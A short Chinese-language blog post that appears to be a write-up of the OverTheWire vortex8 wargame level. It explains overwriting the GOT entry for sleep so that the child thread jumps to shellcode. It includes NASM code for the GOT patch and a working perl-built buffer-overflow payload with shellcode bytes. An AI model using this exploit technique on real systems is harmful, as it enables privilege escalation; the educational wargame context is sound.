 ```yaml
---
title: vortex8
author: rk700
layout: post
tags:
  - OverTheWire
  - exploit
---
```

这道题里用了setresuid。但是调用的方式是通过syscall，我实验了下，如果是直接setresuid，那么子线程的uid被改变了；而如果是syscall，那么子线程的uid不变。现在还不清楚这是为什么，估计是和signal什么的有关。

总之，现在必须在子线程里invoke shell。我们还是可以通过修改got来做到。也就是说，先在父进程unsafecode里执行我们的命令，来修改got，然后让父进程先不要退出（否则子进程也结束了）；然后子进程再调用的时候就会跳到修改后的地方，我们在那里放上payload

可以通过

<pre>$ objump -R vortex8</pre>

来获得函数在got的地址。我想试着修改fflush的地址，但没成功，不知道是为什么。修改sleep是可以的

{% highlight nasm %}
BITS 32

mov ebx, 0x0804a008 ;sleep
mov eax, [ebx]
mov dword [ebx], 0xffffd8f2 ;SHELLCODE

loop:
jmp loop
{% endhighlight %}

最后的部分是无限循环，这样主线程就不会先于子线程退出

确定了strcpy的目标到返回地址的距离然后 

<pre>$ /tmp/nabla$ /vortex/vortex8 `perl -e 'print "A"x1021 . "\xbb\x08\xa0\x04\x08\x8b\x03\xc7\x03\xf2\xd8\xff\xff\xeb\xfe"  . "\xbd\xd2\xff\xff"'`</pre>
